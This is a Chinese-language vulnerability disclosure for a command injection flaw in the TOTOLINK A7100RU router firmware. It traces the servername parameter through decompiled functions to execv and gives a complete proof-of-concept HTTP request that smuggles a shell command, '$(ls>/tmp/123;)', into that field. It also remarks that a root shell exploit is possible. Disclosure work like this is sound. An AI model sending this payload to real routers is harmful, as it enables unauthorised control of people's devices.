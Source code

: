# TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps1.jpg) 

 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220720160641433](img/image-20220720160641433.png)

程序通过获取servername参数下的内容传递给v7，之后将v7带入到Uci_Set_Str函数中

![image-20220720160706302](img/image-20220720160706302.png)

在Uci_Set_Str函数中，通过snprintf函数，将a4匹配到的内容格式化进v11，之后将v11带入cstesystem函数中

![image-20220720160729073](img/image-20220720160729073.png)

函数直接将用户输入内容带入到execv函数中，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/delStaticDhcpRules",
"servername":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps2.png) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps3.png) 

 
